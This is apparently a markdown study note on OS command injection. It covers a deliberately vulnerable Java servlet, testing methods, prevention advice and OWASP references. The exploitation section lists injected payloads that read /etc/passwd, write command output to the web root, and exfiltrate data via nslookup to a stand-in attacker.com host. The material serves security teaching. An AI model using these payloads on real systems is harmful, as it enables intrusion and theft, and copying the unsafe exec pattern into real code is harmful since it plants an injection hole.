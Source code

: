 # Command Injection
---

## What Is OS Command Injection?
OS Command Injection is a vulnerability that consists of an attacker executing commands on the host operating system via a vulnerable application

```java
1 import java.io.IOException;
2 import javax.servlet.http.HttpServletRequest;
3 public void runUnsafe(HttpServletRequest request) throws IOException {
4 String cmd = request.getParameter("command");
5 String arg = request.getParameter("arg");
6 Runtime.getRuntime().exec(cmd+" "+arg);
7 }
```
Line #6 allows execution of arbitrary commands via client-side input

### Types Of Command Injection
1. **In-Band Command Injection**
* Consists of an attacker executing commands on the host operating system via a vulnerable application and receiving the response of the command in the application
2. **Blind Command Injection**
* Consists of an attacker executing commands on the host operating system via a vulnerable application that does not return the output from the command within its HTTP response

### Impact Of Command Injection Attacks
* Unauthorized access to the application and host operating system
    * **C**onfidentiality - can be used to view sensitive information
    * **I**ntegrity - can be used to alter content in the application
    * **A**vailability - can be used to delete content in the application
* Remote code execution on the host operating system

### Impact of Command Injection Attacks
* Unauthorized access to the application and host operating system.
    * **C**onfidentiality – Command injection can be used to view sensitive information.
    * **I**ntegrity – Command injection can be used to alter content in the application.
    * **A**vailability – Command injection can be used to delete content in the application.
* Remote code execution on the operating system

---

## How To Find Command Injection?

### Black-Box Testing
* Map the application
    * Identify all instances where the web application appears to be interacting with the underlying operating system
* Fuzz the application
    * Shell metacharacters: &, &&, |, "", ;, \n, ', $()
* For in-band command injection, analyze the response of the application to determine if it's vulnerable
* For blind command injection, you need to get creative
    * Trigger a time delay using the ping or sleep command
    * Output the response of the command in the web root and retrieve the file directly using a browser
    * Open an out-of-band channgel back to a server you control

### White-Box Testing
* Perform a combination of black box and white box testing
* Map all input vectors in the application
* Review source code to determine if any of the input vectors are added as parameters to functions that execute system commands

---

## How To Exploit Command Injection Vulnerabilities?

* Exploiting In-Band Command Injection
    * Shell metacharacters: &, &&, |, "", ;, \n, ', $()
    * Concatenate another command
        * `127.0.0.1 && cat /etc/passwd &`
        * `127.0.0.1 & cat /etc/passwd &`
        * `127.0.0.1 || cat /etc/passwd &`

* Exploiting Blind Command Injection
    * Shell metacharacters: &, &&, |, "", ;, \n, ', $()
    * Trigger a time delay
        * `127.0.0.1 && sleep 10 &`
        * `127.0.0.1 && ping -c 10 127.0.0.1`
    * Output the response of the command in the web root and retrieve the file directly using a browser
        * `127.0.0.1 & whoami > /var/www/static/whoami.txt &`
    * Open an out-of-band channel back to a server you control
        * `127.0.0.1 & nslookup lishdfo.attacker.com &`
        * `127.0.0.1 & nslookup 'whoami'.lishdfo.attacker.com &`

---

## How To Prevent Command Injection Vulnerabilities?
The most effective way to prevent OS Command Injection Vulnerabilities is to never call out to OS commands from application-layer code. Instead, implement the required functionality using safer platform APIs.
* For example: use `mkdir` instead of `system("mkdir /dir_name")`

It is required to perform OS commands using user-supplied input, then strong input validation must be performed.
* Validate against a whitelist of permitted values
* Validate that the input is as expected or valid input

---

## Resources
* [Web Security Academy – OS Command Injection](https://portswigger.net/web-security/os-command-injection)
* [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
* [OWASP OS Command Injection Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
* [OWASP WSTG Testing for Command Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command)